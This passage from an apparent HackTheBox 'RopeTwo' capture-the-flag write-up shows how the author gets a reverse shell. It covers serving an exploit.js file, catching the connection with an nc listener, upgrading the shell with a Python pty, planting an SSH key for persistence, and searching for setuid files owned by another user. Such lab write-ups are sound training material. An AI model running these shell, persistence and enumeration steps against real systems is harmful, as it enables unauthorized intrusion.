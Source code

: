 
Looks like I have a way to get RopeTwo to load script.

### Shell

I’ll combine all this to get a shell. I’ll start a Python HTTP server to serve
`exploit.js`, and start a `nc` listener. Then I’ll submit:

![image-20201115074354796](https://0xdfimages.gitlab.io/img/image-20201115074354796.png)

At `nc`, a shell connects:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.196.
    Ncat: Connection from 10.10.10.196:58812.
    id
    uid=1001(chromeuser) gid=1001(chromeuser) groups=1001(chromeuser)
    

And upgrade my shell:

    
    
    python3 -c 'import pty;pty.spawn("bash")'
    chromeuser@rope2:/home/chromeuser/web$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    root@kali# stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    chromeuser@rope2:/home/chromeuser/web$
    

I’ll also add my public SSH key to the chromeuser’s `authorized_keys` file for
SSH access.

## Priv: chromeuser –> r4j

### Enumeration

There’s not anything in chromeuser’s home directory except for the web stuff
used to get a shell. There’s a second user on the box, r4j. chromeuser can’t
access r4j’s home directory, but I did go looking for files owned by r4j:

    
    
    chromeuser@rope2:/$ find / -user r4j -ls 2>/dev/null | grep -v -e " \/proc" -e " \/sys"
      1056436     16 -rwsr-xr-x   1 r4j      r4j         14312 Feb 24  2020 /usr/bin/rshell
      1054404      4 drwx------   7 r4j      r4j          4096 Nov 24 15:30 /home/r4j
            2      0 drwx------   4 r4j      r4j           100 Nov 24 14:44 /run/user/1000
            9      0 crw--w----   1 r4j      tty        136,   6 Nov 24 15:30 /dev/pts/6
    